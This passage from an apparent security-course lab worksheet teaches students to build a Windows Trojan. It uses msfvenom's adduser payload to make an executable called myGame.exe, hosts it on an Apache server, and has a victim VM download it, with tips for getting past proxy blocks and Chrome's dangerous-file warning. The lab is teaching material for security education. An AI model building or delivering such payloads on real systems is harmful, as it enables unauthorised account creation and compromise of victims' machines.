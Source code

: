 ==action: To generate a C code version, simply append "-f C". Run:==

```bash
msfvenom -p windows/adduser USER=leeds PASS=L33d583ck377 -f C
```

Since we are creating a Trojan horse, the next step is to create an executable program that will actually run this code. To do this we specify "exe" as our output type, and send the result to a new file.

```bash
msfvenom -p windows/adduser USER=leeds PASS=L33d583ck377 -f exe > myGame.exe
```

This has generated a windows executable in our current directory. ==action: Confirm this by running "ls"==.

Next, we get a Windows user to run our Trojan. 

==action: Start a Web server to share your Trojan:==

==action: Start by creating a directory to place our files:==

```bash
sudo mkdir /var/www/html/share
```

==action: Copy your new Trojan to this location:==

```bash
sudo cp myGame.exe /var/www/html/share/
```

==action: Start the Apache Web server:==

```bash
sudo service apache2 start
```

You should see the status 'active (running)'.  

==action: Before proceeding, note the IP address of the Kali Linux VM==.

> Note: Remember, you can find this by running "ip a".

==VM: On the Windows VM (the victim)==, ==action: browse to the Web server hosting the Trojan horse==.

==action: Open a Web browser, and in the location bar, enter the IP address of your Kali Linux system followed by "/share/name-of-file"==.

For example: "==edit:172.16.29.130==/share/myGame.exe" (with the Kali IP address.)

> Note: If you see a message that your request is blocked by a firewall or a proxy policy, double-check proxy settings in your web browser on Windows7. You might need to add the IP address into the list of exceptions (click on "Advanced" button next to ip-address of a proxy server).

*![][windows_proxy_settings]*

==action: Download the Trojan horse (click on the link)==.

> Note: If you are using Chrome and get a message saying this file is dangerous and Chrome has blocked it, go to your downloads (Ctrl \+ J) and click on "Keep dangerous file". Confirm you really want to keep it.


[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[chrome_downloads_mygame]: {{ site.baseurl }}/assets/images/introducing_attacks/2_malware_msf_payloads/chrome_downloads_mygame.png
[windows_proxy_settings]: {{ site.baseurl }}/assets/images/introducing_attacks/2_malware_msf_payloads/windows_proxy_settings.png